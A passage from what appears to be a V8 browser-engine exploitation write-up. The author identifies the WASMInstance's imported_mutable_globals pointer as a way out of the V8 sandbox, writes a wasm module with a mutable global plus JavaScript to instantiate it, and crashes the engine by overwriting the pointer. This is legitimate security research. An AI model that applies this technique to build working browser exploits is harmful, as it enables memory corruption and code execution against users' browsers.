 After printing the object, my attention was immediately drawn to `imported_function_targets` and `imported_mutable_global` because they are the only ptmalloc heap pointers in the printed result.

I had no idea what they were so I Googled `imported_mutable_global` first and found this snippet:
~~~
int index = num_imported_mutable_globals++;
instance->imported_mutable_globals_buffers()->set(index, *buffer);
// It is safe in this case to store the raw pointer to the buffer
// since the backing store of the JSArrayBuffer will not be
// relocated.
instance->imported_mutable_globals()[index] =
    reinterpret_cast<Address>(
        raw_buffer_ptr(buffer, global_object->offset()));
~~~
It seems like it is an array that stores all global variables used in the webassembly code. This is interesting, maybe we can overwrite the pointer and force the webassembly code to store globals somewhere else, potentially outside of the cage?

I checked the content of `imported_mutable_global` in memory and it was empty. This was because the sample webassembly did not use globals at all. So, I Googled again about how to write webassembly code, and specifically about how to use globals and then I came cross [this page](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly/Global/Global). I copy-pasted the wat code from its [reference repo](https://github.com/mdn/webassembly-examples/blob/master/js-api-examples/global.wat) and compiled it into wasm using the [wabt](https://github.com/WebAssembly/wabt) toolkit and loaded the compiled wasm into my script. This small wasm basically implements the simple functionality to increase a global variable by 1.
The wat code is shown as follow:
~~~
(module
   (global $g (import "js" "global") (mut i32))
   (func (export "getGlobal") (result i32)
        (global.get $g))
   (func (export "incGlobal")
        (global.set $g
            (i32.add (global.get $g) (i32.const 1))))
)
~~~

Now we can use the following snippet to create a `WASMInstance` that uses globals:
~~~
var global = new WebAssembly.Global({value:'i64', mutable:true}, 0n);
var wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 12, 3, 96, 0, 1, 126, 96, 0, 0, 96, 1, 126, 0, 2, 14, 1, 2, 106, 115, 6, 103, 108, 111, 98, 97, 108, 3, 126, 1, 3, 4, 3, 0, 1, 2, 7, 37, 3, 9, 103, 101, 116, 71, 108, 111, 98, 97, 108, 0, 0, 9, 105, 110, 99, 71, 108, 111, 98, 97, 108, 0, 1, 9, 115, 101, 116, 71, 108, 111, 98, 97, 108, 0, 2, 10, 23, 3, 4, 0, 35, 0, 11, 9, 0, 35, 0, 66, 1, 124, 36, 0, 11, 6, 0, 32, 0, 36, 0, 11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod, {js: {global}});
~~~
For experimentation, I overwrote `imported_mutable_global` to `0x4141414141414141` in the `WASMInstance` and invoke `wasm_instance.exports.incGlobal()`. And then, Crash!